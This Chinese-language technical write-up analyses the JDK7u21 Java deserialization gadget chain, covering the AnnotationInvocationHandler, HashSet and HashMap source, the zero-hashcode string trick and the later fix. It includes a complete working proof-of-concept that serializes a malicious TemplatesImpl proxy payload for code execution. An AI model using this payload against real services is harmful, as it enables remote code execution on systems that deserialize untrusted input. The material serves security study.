

### JDK7u21

#### 反序列化的关键

* 在于找到可以动态方法执行的代码：例如CC链中的Transformer，CB链中的PropertyUtils#getProperty

JDK7u21中动态方法执行的点，AnnotationInvocationHandler#equalsImpl中的`hisValue = memberMethod.invoke(o)`。

```java
private Boolean equalsImpl(Object o) {
        if (o == this)
            return true;

        if (!type.isInstance(o))
            return false;
        for (Method memberMethod : getMemberMethods()) {
            String member = memberMethod.getName();
            Object ourValue = memberValues.get(member);
            Object hisValue = null;
            AnnotationInvocationHandler hisHandler = asOneOfUs(o);
            if (hisHandler != null) {
                hisValue = hisHandler.memberValues.get(member);
            } else {
                try {
                    hisValue = memberMethod.invoke(o);
                } catch (InvocationTargetException e) {
                    return false;
                } catch (IllegalAccessException e) {
                    throw new AssertionError(e);
                }
            }
            if (!memberValueEquals(ourValue, hisValue))
                return false;
        }
        return true;
    }

private Method[] getMemberMethods() {
        if (memberMethods == null) {
            memberMethods = AccessController.doPrivileged(
                new PrivilegedAction<Method[]>() {
                    public Method[] run() {
                        final Method[] mm = type.getDeclaredMethods();
                        validateAnnotationMethods(mm);
                        AccessibleObject.setAccessible(mm, true);
                        return mm;
                    }
                });
        }
        return memberMethods;
    }
```

AnnotationInvocationHandler#equalsImpl是一个私有方法，仅在AnnotationInvocationHandler#invoke中被调用，它遍历执行了`this.type`的所有方法，如果这里的this.type为TemplatesImpl，那就可以实现任意代码执行。

```java
public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        if (paramTypes.length != 0)
            throw new AssertionError("Too many parameters for an annotation method");

        switch(member) {
        case "toString":
            return toStringImpl();
        case "hashCode":
            return hashCodeImpl();
        case "annotationType":
            return type;
        }

        // Handle annotation member accessors
        Object result = memberValues.get(member);

        if (result == null)
            throw new IncompleteAnnotationException(type, member);

        if (result instanceof ExceptionProxy)
            throw ((ExceptionProxy) result).generateException();

        if (result.getClass().isArray() && Array.getLength(result) != 0)
            result = cloneArray(result);

        return result;
    }

```

前面找到动态代码执行的关键后，构造链条的关键即在于如何调用equalsImpl和equalsImpl如何进行任意代码执行。

#### 如何调用equalsImpl

由于AnnotationInvocationHandler实现了接口InvocationHandler，这里很明显可以采用CC1中用到的动态代理调用AnnotationInvocationHandler#invoke，但是注意到invoke的代码逻辑，我们代理的对象，必须是调用名为equals且只有一个Object类型的参数时，才会触发equalsImpl。

#### 找到equals调用链

equals方法通常用于比较两个对象是否是同一引用，一个常见场景是集合set，集合是不允许重复对象的，所以在添加对象时势必涉及到比较操作。

```java
// HashSet#readObject
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read capacity and verify non-negative.
        int capacity = s.readInt();
        if (capacity < 0) {
            throw new InvalidObjectException("Illegal capacity: " +
                                             capacity);
        }

        // Read load factor and verify positive and non NaN.
        float loadFactor = s.readFloat();
        if (loadFactor <= 0 || Float.isNaN(loadFactor)) {
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        }

        // Read size and verify non-negative.
        int size = s.readInt();
        if (size < 0) {
            throw new InvalidObjectException("Illegal size: " +
                                             size);
        }

        // Set the capacity according to the size and load factor ensuring that
        // the HashMap is at least 25% full but clamping to maximum capacity.
        capacity = (int) Math.min(size * Math.min(1 / loadFactor, 4.0f),
                HashMap.MAXIMUM_CAPACITY);

        // Create backing HashMap
        map = (((HashSet<?>)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            @SuppressWarnings("unchecked")
                E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
```

HashSet在readObject时，通过HashMap来保证集合的一些特性，向HashMap内部追溯，寻找equals操作。

```java
// jdk8u21 hashmap
 public V put(K key, V value) {
        if (key == null)
            return putForNullKey(value);
        int hash = hash(key);
        int i = indexFor(hash, table.length);
        for (Entry<K,V> e = table[i]; e != null; e = e.next) {
            Object k;
            if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
                V oldValue = e.value;
                e.value = value;
                e.recordAccess(this);
                return oldValue;
            }
        }

        modCount++;
        addEntry(hash, key, value, i);
        return null;
    }
```

下面我们来详细分析HashMap#putVal:

1. 首先判断传入的 `key` 是否为 `null`。如果是,则调用 `putForNullKey()` 方法处理这种特殊情况。
2. 计算 `key` 的哈希值,并使用 `indexFor()` 方法根据哈希值和当前 HashMap 的长度计算出该键值对在 `table` 数组中的索引位置 `i`。
3. 然后遍历位于索引 `i` 处的链表,检查是否已经存在与传入的 `key` 相等的键值对。
   - 如果找到了,则更新该键值对的 `value` 值,并返回旧的 `value` 值。
   - 如果没找到,则跳出循环。
4. 如果遍历完链表后仍未找到与传入的 `key` 相等的键值对,则调用 `addEntry()` 方法,将新的键值对添加到 HashMap 中。
5. 最后,更新 `modCount` 变量,该变量用于记录 HashMap 结构发生变化的次数。

```java
 if (e.hash == hash && ((k = e.key) == key || key.equals(k)))
```

关键代码在这里，由于||运算符的惰性运算，我们比较的两个对象必须满足hash值相同且key不同，才能触发后面的`key.equals(k)`，这里key是代理对象，k是TemplatesImpl，即可进行任意代码执行。

#### 找到合适的proxy对象，使得其hash和TemplatesImpl的hash相等

查看HashMap的hash函数

```java
final int hash(Object k) {
        int h = 0;
    	// 是否启用备用hash算法，一般情况下不启用，可忽略
        if (useAltHashing) {
            if (k instanceof String) {
                return sun.misc.Hashing.stringHash32((String) k);
            }
            h = hashSeed;
        }

        h ^= k.hashCode();

        // This function ensures that hashCodes that differ only by
        // constant multiples at each bit position have a bounded
        // number of collisions (approximately 8 at default load factor).
        h ^= (h >>> 20) ^ (h >>> 12);
        return h ^ (h >>> 7) ^ (h >>> 4);
    }
```

这里`k.hashCode()`作为产生hash的唯一变量，由于TemplateImpl的hashCode方法是一个Native方法，我们不好追溯，因此选择看一下代理对象的hashCode，而proxy.hashCode() 仍然会调用到 AnnotationInvocationHandler#invoke ，进而调用到 AnnotationInvocationHandler#hashCodeImpl

```java
private int hashCodeImpl() {
        int result = 0;
        for (Map.Entry<String, Object> e : memberValues.entrySet()) {
            result += (127 * e.getKey().hashCode()) ^
                memberValueHashCode(e.getValue());
        }
        return result;
    }

private static int memberValueHashCode(Object value) {
        Class<?> type = value.getClass();
        if (!type.isArray())    // primitive, string, class, enum const,
                                // or annotation
            return value.hashCode();

        // ......
    }
```

这里代码逻辑很简答，遍历 memberValues 这个Map中的每个key和value，计算每个 (127 * key.hashCode()) ^ value.hashCode() 并求和。

我们如何构造一个和恶意TemplateImpl的hash值一致的代理对象呢，JDK7u21中使用了一个非常巧妙的方法： 

* 当 memberValues 中只有一个key和一个value时，该哈希简化成 (127 * key.hashCode()) ^ value.hashCode() 
* 当 key.hashCode() 等于0时，任何数异或0的结果仍是他本身，所以该哈希简化成 value.hashCode() 。 
* 当 value 就是TemplateImpl对象时，这两个哈希就变成完全相等

```java
 public static void bruteHashCode()
    {
        for (long i = 0; i < 9999999999L; i++) {
            if (Long.toHexString(i).hashCode() == 0) {
                System.out.println(Long.toHexString(i));
            }
        }
    }
```

可以通过一个简单的爆破程序找到一个hash值为0的字符串

#### POC代码

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class JDK7u21 {
    public static void main(String[] args) throws Exception {
        byte[] classBytes = Files.readAllBytes(Paths.get("your\\class\\path"));

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{
                classBytes
        });
        setFieldValue(templates, "_name", "CalcExample");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        String zeroHashCodeStr = "f5a5a608";

        // 实例化一个map，并添加Magic Number为key，也就是f5a5a608，value先随便设置一个值
        HashMap map = new HashMap();
        map.put(zeroHashCodeStr, "foo");

        // 实例化AnnotationInvocationHandler类
        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);

        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);

        // 将恶意templates设置到map中
        map.put(zeroHashCodeStr, templates);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(set);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }


}

```

注意这里代码添加的顺序

```java
set.add(templates);
set.add(proxy);
```

在hash表中，同一hash地址对应的链表中的元素是有先后顺序的，我们要保证`key.equals(k)`的k是恶意TemplatesImpl，key是代理对象，而不是反过来。

#### 修复



在 sun.reflect.annotation.AnnotationInvocationHandler 类的readObject函数中，原本有一个 对 this.type 的检查，在其不是AnnotationType的情况下，会抛出一个异常。但是，捕获到异常后没 有做任何事情，只是将这个函数返回了，这样并不影响整个反序列化的执行过程。 新版中，将 `return;` 修改成`throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream"); `，这样，反序列化时会出现一个异常，导致整个过程停止。
